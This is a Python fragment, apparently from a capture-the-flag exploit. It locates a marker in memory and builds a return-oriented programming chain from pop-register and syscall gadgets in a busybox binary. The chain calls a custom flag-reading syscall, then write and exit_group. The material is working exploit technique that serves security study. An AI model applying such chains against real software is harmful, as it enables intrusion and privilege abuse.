 ```python
seek_mem(stack_top() + BLK_SZ)
for _ in range(16):
    data = read_mem(BLK_SZ, -BLK_SZ * 2)
    pos = data.find(p64(0x4c7cce))
    if pos > 0:
        # FIXME: Why do we have to do this?
        pos -= pos & 7
        seek_mem(-BLK_SZ + pos)
        ok = True
        break
assert ok

def set_rdi(rdi):
    #  4d566d:       5f                      pop    %rdi
    #  4d566e:       c3                      ret
    return p64(0x4d566d) + p64(rdi)

def set_rsi(rsi):
    #  4d8b82:       5e                      pop    %rsi
    #  4d8b83:       c3                      ret
    return p64(0x4d8b82) + p64(rsi)

def set_rdx(rdx):
    #  4d5e2f:       5a                      pop    %rdx
    #  4d5e30:       c3                      ret
    return p64(0x4d5e2f) + p64(rdx)

def set_rax(rax):
    #  4d985c:       58                      pop    %rax
    #  4d985d:       c3                      ret
    return p64(0x4d985c) + p64(rax)

def syscall0(nr):
    #  4d8765:       0f 05                   syscall
    #  4d8767:       c3                      ret
    return set_rax(nr) + p64(0x4d8765)

def syscall1(nr, arg0):
    return set_rdi(arg0) + syscall0(nr)

def syscall2(nr, arg0, arg1):
    return set_rsi(arg1) + syscall1(nr, arg0)

def syscall3(nr, arg0, arg1, arg2):
    return set_rdx(arg2) + syscall2(nr, arg0, arg1)

def sys_get_flag(idx, buf):
    return syscall2(548, idx, buf)

def sys_write(fd, buf, sz):
    return syscall3(1, fd, buf, sz)

def sys_exit_group(code):
    return syscall1(231, code)

# 00400000-00512000 r-xp 00000000 00:02 6                                  /bin/busybox
# 00711000-00714000 rw-p 00111000 00:02 6                                  /bin/busybox
BUF = 0x711000

FLAG_ID = 0
STDERR_FILENO = 2
MAX_FLAG_LEN = 128

```